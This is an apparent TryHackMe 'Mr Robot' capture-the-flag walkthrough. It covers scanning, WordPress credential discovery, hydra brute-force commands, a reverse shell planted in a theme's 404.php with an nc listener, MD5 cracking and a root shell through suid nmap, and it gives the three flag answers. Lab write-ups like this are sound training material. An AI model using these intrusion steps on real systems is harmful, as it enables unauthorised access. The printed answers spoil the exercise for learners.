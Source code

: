 # TryHackMe - Mr Robot

## 📌 Task 1: Connect to the network

## 🛠 Setup

Set an environment variable for the IP to simplify commands:

```bash
export IP=10.10.189.18
```

### 🔍 Nmap Scan

**Using all ports takes forver**

```bash
nmap -sC -sV -oN nmap/initial $IP
```

**Results:**

```
PORT    STATE SERVICE  VERSION                                                               
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)         
| ssh-hostkey:                                                                               
|   3072 3c:c0:d8:47:81:bf:bf:1c:ac:2d:d2:36:8a:3b:18:00 (RSA)                               
|   256 30:75:fd:a7:11:2b:e1:65:b2:3b:c7:82:15:c5:16:e8 (ECDSA)                              
|_  256 13:07:cb:6e:36:cc:2a:a1:52:16:8c:86:36:c2:03:be (ED25519)                            
80/tcp  open  http     Apache httpd                                                          
|_http-title: Site doesn't have a title (text/html).                                         
|_http-server-header: Apache
443/tcp open  ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### 🔍 Gobuster

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.189.18 -x .php,.txt,.html
```

**Results**
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 214]
/index.html           (Status: 200) [Size: 1188]
/images               (Status: 301) [Size: 235] [--> http://10.10.189.18/images/]
/index.php            (Status: 301) [Size: 0] [--> http://10.10.189.18/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.189.18/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.189.18/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.189.18/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.189.18/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.189.18/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.189.18/video/]
/image                (Status: 301) [Size: 0] [--> http://10.10.189.18/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.189.18/feed/atom/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.189.18/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.189.18/admin/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.189.18/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2664]
/wp-login.php         (Status: 200) [Size: 2664]
/css                  (Status: 301) [Size: 232] [--> http://10.10.189.18/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.189.18/feed/]
/license              (Status: 200) [Size: 309]
/license.txt          (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.189.18/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.189.18/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.189.18/Image/]
/wp-register.php      (Status: 301) [Size: 0] [--> http://10.10.189.18/wp-login.php?action=register]                                                                                      
/wp-rss2.php          (Status: 301) [Size: 0] [--> http://10.10.189.18/feed/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.189.18/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.189.18/]
/readme               (Status: 200) [Size: 64]
/readme.html          (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.189.18/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.189.18/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.189.18/wp-admin/]
```

## 📌 Task 2: Hack the machine

Let's have a look at robots.txt

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
```bash
http://10.10.189.18/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```
**Q. What is key 1?
A. 073403c8a58a1f80d943455fb30724b9

### Foothold

## Login and registration page found

There is a login and register page. Let's play with that
Says disable in the URL string. Chaning that to enable allows us to register.
```
http://10.10.189.18/wp-login.php?registration=enabled
```
However, I can't register a new user. However, forget password works. I can now test user names!
```
http://10.10.189.18/wp-login.php?action=lostpassword
```
Let's try some of the main characters in Mr Robit

elliot - works. The rest say no username found

## Guess Elliot's password

I tried SQLmap but that didn't work
```bash
sqlmap --forms -a -u http://10.10.189.18/wp-login.php
```

Let's move on to hydra

First I jump into burpsuite and grab the forms

**Results**
```
log=elliot&pwd=elliot&wp-submit=Log+In
```

```bash
hydra -l elliot -P /usr/share/wordlists/rockyou.txt 10.10.189.18 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

### SSH password with Hydra
```bash
hydra -l elliot -P /usr/share/wordlists/rockyou.txt ssh://10.10.189.18
```

**No, they were all taking too long. It's normally much simpler. Let's try something else

## Move on to WP exploit

One of the pages is /0/ looking at the source it seems to be running twenty fifteen ver 20141010. That has vulnerability both SQL injection and cross side scripting! Maybe that is how I get in!

Let's see if the exploit is there!
```
10.10.189.18/wp-content/themes/genericons/example.html
Nope :-(
```

Openend license.txt to see if I can find a version
However, to my surprise there at the very end of the file is a base64 code
Putting in cybershef revealed
```
elliot:ER28-0652
```

Now I can login to the WP

I tried to upload a file in media. That didn't work
In the end I has to look online - silly I missed the templates link in the admin page!
In there, you can edit files. Picking (like everyone with walkthroughs) I edited 404.php using an example from pentestmonkey.com

open a listener (now using rlwrap for a better experience)
```bash
rlwrap nc -nlvp 8888
```

I am in!

Moving to home/robot I can see the next flag but don't have permission. However, there is a MD5 I can use. 
robot:c3fcd3d76192e4007dfb496cca67e13b

### Upgrade perms

A quick google found me a password decoder for MD5. I could have also used john the ripper!
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 
```
The answer is abcdefghijklmnopqrstuvwxyz
```bash
ssh robot@10.10.189.18
```
```bash
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
**Q. What is key 2?
A. 822c73956184f694993bede3eb39f959

### Root
 
I uploaded linpeas.sh and ran it.

It said there was Vulnerable to CVE-2021-3560

I donwloaded the exploit from exploitdb and tried it. Nope didn't work

Further down linpeas results showed nmap has the suid bit set and it was vulnerable

A quick look on GTFOBins. I can get a root shell

```bash
nmap --interactive
nmap> !sh
```

Yay, I am root!

```bash
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

**Q. What is key 3?
A. 04787ddef27c3dee1ee161b21670b4e4
